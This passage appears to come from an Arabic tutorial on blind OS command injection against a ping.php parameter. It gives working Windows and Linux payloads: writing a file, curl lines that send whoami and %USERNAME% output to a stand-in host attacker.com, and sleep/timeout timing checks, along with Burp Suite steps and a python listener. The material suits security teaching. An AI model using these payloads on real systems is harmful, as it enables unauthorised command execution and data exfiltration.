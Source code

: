   - **الأمر**: `echo Hacked > C:\Temp\test.txt`
  - **النتيجة المتوقعة**: إنشاء ملف `C:\Temp\test.txt`. تحقق:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & type C:\Temp\test.txt
    ```
- **متى يُستخدم؟**:
  - عندما لا تظهر مخرجات الأوامر مباشرة.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من وجود الملف بقراءته.

#### ب. إرسال بيانات إلى خادم خارجي
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; curl http://attacker.com?data=$(whoami)
    ```
  - **الأمر**: `curl http://attacker.com?data=$(whoami)`
  - **النتيجة المتوقعة**: طلب HTTP يصل إلى خادمك يحتوي على `www-data`.
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & curl http://attacker.com?data=%USERNAME%
    ```
  - **الأمر**: `curl http://attacker.com?data=%USERNAME%`
  - **النتيجة المتوقعة**: نفس الشيء.
- **متى يُستخدم؟**:
  - لتأكيد التنفيذ في Blind Injection عبر الاتصال الخارجي.
- **الأوامر/الإجراءات**:
  - شغّل خادم HTTP بسيط على جهازك:
    ```
    python3 -m http.server 80
    ```
  - أرسل الطلب في Burp Suite.
  - تحقق من السجلات على خادمك.

#### ج. تأخير الاستجابة (Time-Based)
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; sleep 5
    ```
  - **الأمر**: `sleep 5`
  - **النتيجة المتوقعة**: استجابة التطبيق تتأخر 5 ثوانٍ.
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & timeout 5
    ```
  - **الأمر**: `timeout 5`
  - **النتيجة المتوقعة**: نفس الشيء.
- **متى يُستخدم؟**:
  - لتأكيد التنفيذ إذا لم تظهر مخرجات أو لم يكن هناك اتصال خارجي.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - قارن وقت الاستجابة مع طلب عادي.

---